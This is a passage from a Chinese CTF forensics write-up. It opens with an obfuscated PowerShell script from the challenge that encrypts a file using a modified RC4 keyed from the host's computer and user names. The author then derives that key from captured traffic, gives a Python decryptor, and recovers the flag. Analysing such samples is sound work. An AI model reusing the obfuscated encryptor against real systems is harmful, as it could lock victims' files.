    (-join([cHaR]0x70, [char]0x31)) = ([SYsTem.tEXt.EnCODInG]::uTf8.GeTSTRInG([SYstem.conVERt]::frombASE64sTRINg(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('WVZkV05BPT0='))))))
    ([sYstEm.text.ENcodING]::UTf8.GeTsTRiNg([sYsTEm.COnveRt]::FroMbasE64StriNG(([System.Text.Encoding]::UTF8.GetString([byte[]](0x63,0x44,0x49,0x3D)))))) = (-join(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UjI='))),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('VjBM'))),"$([char]0x56)$([char]0x4A)$([char]0x68)$([char]0x62)$([char]0x6D)$([char]0x52)$([char]0x76)$([char]0x62)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UT09')))))
    $($K4749='a#uX={bsE0h{<9<';$b=[Byte[]](0x11,0X10);$Kb=[sYSTem.texT.encoding]::utF8.GetbYTES($K4749);-join(0..($B.lenGTH-1)|%{[CHaR]($B[$_]-bxor$Kb[$_%$kb.LenGTh])})) = (([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ezB9ezF9ezJ9ezN9ezR9ezV9'))) -F ('{0}' -f 'TmV'),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('M0w='))),$($k4686='Y!D0eNsO8SG*';$b=[byte[]](0x0C,0x18,0x2D);$kb=[System.Text.Encoding]::UTF8.GetBytes($k4686);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),(-join('am','V')),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('amRBPQ=='))),([System.Text.Encoding]::UTF8.GetString([byte[]](0x3D))))
    ([SySteM.teXt.EncODInG]::UtF8.GetstrINg([SysTEM.CONVerT]::fRoMBaSE64StRiNg($($k6484='-wVuWmJ02';$b=[byte[]](0x4E,0x33,0x07,0x48);$kb=[System.Text.Encoding]::UTF8.GetBytes($k6484);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])}))))) = ('{0}{1}{2}{3}{4}{5}{6}{7}{8}{9}{10}{11}{12}{13}' -F "$([char]0x55)$([char]0x33)$([char]0x6C)$([char]0x7A)$([char]0x64)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('R1Y='))),([System.Text.Encoding]::UTF8.GetString([byte[]](0x74,0x4C,0x6C,0x4E))),$($k5685=214;$b=[byte[]](0xba,0x8f,0xe5,0x80);-join($b|%{[char]($_-bxor$k5685)})),([System.Text.Encoding]::UTF8.GetString([byte[]](0x79,0x61))),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('WA=='))),(-join('R5','Lk')),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('Tnll'))),$($k3284=56;$b=[byte[]](0x60,0x7a);-join($b|%{[char]($_-bxor$k3284)})),$($k7988=150;$b=[byte[]](0xa6,0xf4,0xa4,0xf2,0xef);-join($b|%{[char]($_-bxor$k7988)})),('{0}{1}{2}{3}' -f 'YX','B','o','e'),"$([char]0x53)$([char]0x35)$([char]0x54)$([char]0x53)",('{0}{1}{2}' -f 'EE','y','N'),('{0}{1}{2}' -f 'T','Y','='))
}

$E = {param($s) [SySTEM.TexT.ENcODiNg]::Utf8.gETSTRing([SysTeM.COnvERt]::FROmbase64sTriNG($S))}

$CmD = & $E $C.P1
& $cMd $($k1227 = (11 * 13);$B=[byTe[]](0xc8,0xEa,0XFB,0xa2,0xdD,0XEe,0xe1,0XEB,0xe0,0XE2,0xaF,0xF3,0xAF,0xc0,0xfA,0XFB,0xa2,0Xc1,0Xfa,0xe3,0xE3);-join($B|%{[CHaR]($_-Bxor$k1227)}))

function InitIaLiZE-STate {
    param($keY)
    $s = 0..255 | % { [bYTE]$_ }
    $j = (65 + -65)
    for ($I = (142 % 71); $I -lt 256; $i++) {
        $J = ($J + $s[$i] + $KEY[$I % $Key.LenGtH]) -band 0Xff
        $s[$i], $S[$j] = $s[$J], $s[$i]
    }
    return $S
}

function PRoCEsS-STream {
    param($data, $Key)

    $StATe = InITIALiZe-STatE -kEy $kEy
    $i = (171 % 57); $j = (29 -bxor 29)

    $PReV_ciPHEr_bYte = $KEy[0]

    $oUT = [bYtE[]]::NEw($DAtA.LeNGth)

    for($lOOp_IdX = (165 % 33); $LoOp_IDx -lt $DAtA.lEngTh; $LooP_IdX++) {

        $ToTal_kEYSTreAm_BYTe = (77 - 77)
        for ($ROuND = (24 -bxor 24); $ROuND -lt (37 -bxor 38); $RoUND++) {
            $i = ($I + 1) -band 0XfF
            $J = ($j + $STAte[$I]) -band 0Xff
            $sTatE[$I], $statE[$J] = $staTE[$J], $stAte[$I]

            $KEystReAm_byte_PaRT = $STATe[($stATe[$I] + $sTaTe[$j]) -band 0XFf]
            $toTAL_KeYSTReaM_ByTE = $tOtAl_kEYsTrEaM_BYtE -bxor $KEYstReAm_bYTe_PART
        }

        $Cipher_BytE = $dATa[$looP_IdX] -bxor $TOtAL_KEystReam_BytE -bxor $prEV_CIPHEr_BYTE -bxor 0X23

        $OUt[$LOoP_IdX] = $ciPHeR_ByTe

        $pReV_CiPHeR_byTe = $cIphEr_BYte
    }

    return $OUt
}

function geNeRaTe-cOMPOuNdsEED {
    $d1 = [SYSTem.TexT.eNcODinG]::uTf8.gEtbyteS($Env:cOMPutErnaMe)
    $D2 = [sySteM.teXT.eNcODInG]::uTF8.GetByTEs($EnV:uSErnaME)
    $lEn1 = $d1.lenGTH
    $LEN2 = $D2.LenGTh

    $MAxLEN = [MaTh]::MAX($leN1, $LEN2)
    $sEed = [byte[]]::NEw($maxLEN)

    for ($i = (74 -bxor 74); $i -lt $mAXLen; $I++) {
        $SeEd[$I] = $d1[$i % $lEn1] -bxor $D2[$I % $Len2]
    }
    return $seed
}

$SEed = GENeRaTE-COmpoUNDSeED

$sHA_stRiNG = ($(& $E $C.p3) + ($($k9180='q3]KGXKOAV';$b=[byte[]](0x0A,0x03,0x20);$kb=[System.Text.Encoding]::UTF8.GetBytes($k9180);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})) -f ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('IA==')))) + $(& $e $C.P4) + ($($k7917=33;$b=[byte[]](0x5a,0x11,0x5c,0x5a,0x10,0x5c);-join($b|%{[char]($_-bxor$k7917)})) -f "$([char]0x4D)$([char]0x61)$([char]0x6E)$([char]0x61)$([char]0x67)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ZWQ=')))))
$sHA = & $cmD $sha_STRINg

$masTeR_KeY = $shA.comPuTeHaSH($sEeD)
$ShA.dISpOse()

$PLAIn_bYTes = get-CONtENT -PaTh $inPuTFILE -eNcOdINg ByTE -ReADcoUNt (60 -bxor 60)

$EncryPted_BYteS = PRocESS-stReaM -DatA $plaIn_ByTes -KeY $MAsTEr_KeY

$finaL_oUTpUT = [SYSTEM.cONVeRT]::toBAsE64sTRING($encRYPtED_bYTeS)
sc -patH $ouTpuTfilE -value $FiNal_ouTPUt
try {
    throw "Intentionally skipping this block";
    $randomFilePath = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), [System.IO.Path]::GetRandomFileName()); Write-Host "Generated temp path: $randomFilePath"
} catch {}
$oTj_ws.col.info == "SchRpcRetrieveTask response"kK8Y = 1..5; $oTjkK8Y = $oTjkK8Y | Where-Object { $_ % 2 -eq 0 }; Clear-Variable oTjkK8Y -ErrorAction SilentlyContinue
```

发现是个魔改的RC4，并且告诉了我们密钥生成的步骤：`$Env:cOMPutErnaMe` 和 `$EnV:uSErnaME` 需要异或一下

因此我们需要去流量中找这两个参数，因为我渗透相关的内容接触的不多，这里就直接贴出题人的提示了

> 熟悉域控的朋友们都知道，FQDN 是 计算机名+域名

因此这里的计算机名就是：dc01

然后这里的用户名也不是之前的那个 `kanna.seto` 了，而是域中的用户名，出题人说这里可能需要本地模拟一下

因为我渗透这方面接触的不多，就直接给出答案了，详细模拟过程后续再补上来，用户名：dc01$

到此，我们就得到了RC4解密的所有参数，出题人这里魔改了RC加密的轮数，然后多异或了一个 0x23

我们对照着之前的加密逻辑写个脚本解密即可，就是要注意这里的计算机名和用户名需要首字母大写，要不然会解密失败

```python
import base64
import hashlib

def initialize_state(key):
    s = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) & 0xFF
        s[i], s[j] = s[j], s[i]
    return s

def process_stream_decrypt(data, key):
    state = initialize_state(key)
    i = j = 0
    prev_cipher_byte = key[0]
    
    output = bytearray(len(data))
    
    for loop_idx in range(len(data)):
        total_keystream_byte = 0
        for round_num in range(3):
            i = (i + 1) & 0xFF
            j = (j + state[i]) & 0xFF
            state[i], state[j] = state[j], state[i]
            
            keystream_byte_part = state[(state[i] + state[j]) & 0xFF]
            total_keystream_byte ^= keystream_byte_part
        
        # 解密公式（从加密公式推导）：
        # 加密：cipher_byte = plain_byte ^ total_keystream_byte ^ prev_cipher_byte ^ 0x23
        # 解密：plain_byte = cipher_byte ^ total_keystream_byte ^ prev_cipher_byte ^ 0x23
        current_cipher_byte = data[loop_idx]
        plain_byte = current_cipher_byte ^ total_keystream_byte ^ prev_cipher_byte ^ 0x23
        output[loop_idx] = plain_byte
        
        prev_cipher_byte = current_cipher_byte
    
    return bytes(output)

def generate_compound_seed(computer_name, username):
    d1 = computer_name.encode('utf-8')
    d2 = username.encode('utf-8')
    len1 = len(d1)
    len2 = len(d2)
    max_len = max(len1, len2)
    seed = bytearray(max_len)
    
    for i in range(max_len):
        seed[i] = d1[i % len1] ^ d2[i % len2]
    
    return bytes(seed)

def decrypt_file(encrypted_file_path, output_file_path, computer_name, username):
    with open(encrypted_file_path, 'r') as f:
        base64_data = f.read().strip()
    
    encrypted_bytes = base64.b64decode(base64_data)
    print(f"加密数据长度: {len(encrypted_bytes)} 字节")
    
    seed = generate_compound_seed(computer_name, username)
    print(f"种子: {seed.hex()}")
    
    master_key = hashlib.sha256(seed).digest()
    print(f"主密钥: {master_key.hex()}")
    
    decrypted_bytes = process_stream_decrypt(encrypted_bytes, master_key)
    
    with open(output_file_path, 'wb') as f:
        f.write(decrypted_bytes)
    
    print(f"文件解密成功: {output_file_path}")


if __name__ == "__main__":
    computer_name = "Dc01"
    username = "Dc01$"

    encrypted_file = "enc.jpg"
    output_file = "decrypted_flag.jpg"
    decrypt_file(encrypted_file, output_file, computer_name, username)
```

运行以上代码后即可得到下面这张 JPG 图片



最后 stegseek 一下即可爆破出密钥并得到flag：`flag{Bu1ld1ng_4_Fu11y_C0nn3ct3d_1nt3ll1g3nt_W0rld!!!}`





**整体做下来感觉这道题确实构思的挺巧妙，出的挺好的**

**在此感谢一下出题人，题目质量和难度都在线**

**一道题同时考察到了NTLM、Kerberos认证以及渗透、RC4加密算法等知识点**

**就是一个队伍中如果没有Misc手和会一点渗透的师傅在的话**

**感觉在赛中短时间内把这道题做出来还是会比较困难**

**制作Keytab时姓和名都要大写、填SMB2的SessionKey只需要填入前16字节、解密需要的计算机名和用户名要从流量中寻找、最后解密时计算机名和用户名都需要大写、RC 加密算法被魔改了等等**

**这些卡点肯定还是会耗费选手一定的时间**




---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/02298dd/  

